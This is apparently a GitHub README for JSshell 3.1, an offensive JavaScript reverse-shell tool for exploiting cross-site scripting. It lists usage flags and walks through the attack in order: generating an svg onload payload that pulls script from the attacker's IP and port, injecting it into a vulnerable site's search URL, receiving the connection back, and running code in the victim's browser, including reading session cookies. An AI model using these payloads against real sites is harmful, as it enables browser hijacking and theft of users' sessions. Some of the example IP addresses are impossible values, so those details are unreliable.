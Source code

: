 # JSshell - version 3.1

![JSshell](https://user-images.githubusercontent.com/43073671/101387832-ec9f5380-38b6-11eb-9933-db5399cf0319.png)

JSshell - a JavaScript reverse shell. This is used to execute JS code remotely, exploit blind XSS, ...

This tool works for both Unix and Windows operating systems, and it can run on both Python 2 + Python 3. This is 
a big update of JShell - a tool to get a JavaScript shell with XSS by s0med3v. JSshell also doesn't require Netcat (different from JShell).

### New in JSshell version 3.1
Updated in the new version of JShell 3.1:

- New JSshell command: `snippet` -> allows to write a snippet of javascript code

```sh
>>> snippet
Use CTRL+D to finish the snippet

function new() {
    new = 'New update: Support javascript snippet =)';
    confirm(new)
}

new()
>>> 
```
- Quiet mode (for professionals)
- Added `<body>` reverse shell payload
- Fixed some bugs

# Usage
#### Generate JS reverse shell payload:  `-g`
#### Set the local port number for listening and generating payload (By default, it will be set to 4848):  `-p`
#### Set the local source address for generating payload (JSshell will detect your IP address by deault):  `-s`
#### Set timeout for shell connection (if the user exit page, the shell will be pause, and if your set the timeout, after a while without response, the shell will automatically be closed):  `-w`
#### Execute a command after get the shell:  `-c`

#### Example usages:
- `jsh.py`
- `jsh.py -g`
- `jsh.py -p 1234`
- `jsh.py -s 48.586.1.23 -g`
- `jsh.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is a step-by-step example for how to use JSshell.

First we will generate a reverse JS shell payload and set the shell timeout is 20 seconds:

```
~# whoami
root
~# ls
README.md   jsh.py
~# python3 jsh.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website (or URL):

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and now we will see that we have got the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Now let's execute some commands:

```
$ var test = 'controlled'
$ alert(test)
$
```
And the browser got an alert:  `controlled`

```
$ prompt(document.cookie)
$
```
And the browser print the user cookies:  `JSESSION=3bda8...`

```
$ exit
~# whoami
root
~# pwd
/home/shelld3v
~#
```

And we quited!


# Author
This is created by [shelld3v](https://github.com/shelld3v)!

